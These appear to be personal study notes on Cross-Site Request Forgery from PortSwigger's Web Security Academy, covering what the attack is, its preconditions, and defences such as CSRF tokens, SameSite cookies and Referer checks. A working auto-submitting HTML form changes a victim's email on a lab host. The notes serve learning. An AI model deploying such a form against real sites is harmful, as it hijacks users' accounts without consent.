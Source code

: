 # Cross-Site Request Forgery from portswigger

## What is it?
```
An attack that is related to making a request, ofcourse a malicious one, that is being sent to another user (victim) so that the request is being executed and send under the victim's name from server PoV.
```

## Keys on how CSRF going to work
```
- relevant action such as changing user's persoal data
- Cookie-based session handling, the server identifies user based on the cookie alone 
- No unpredictable request parameters. so when constructing a request, attacker finds some parameters is guessable and tried to tweaked it
```

## Simple [PoC](https://security.love/CSRF-PoC-Genorator) from security.love
```
<html>
    <form enctype="application/x-www-form-urlencoded" method="GET" action="https://0a9e001d030665d581a116ba002200e1.web-security-academy.net/my-account/change-email?email=foo%40web-security-academy.net&_method=POST">
        <input type="hidden" value="awd@gmail.com" name="email">
        <input type="hidden" value="POST" name="_method">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</html>
```

## Technologies used to prevent CSRF
- CSRF token: random token that is generated to add a little challenge from succeding a csrf attack
- SameSite cookies: restriction on how a cookie will be tranfered between different sites 
- Referer-based validation: using HTTP referer header to validate that the request comes from the app/web itself
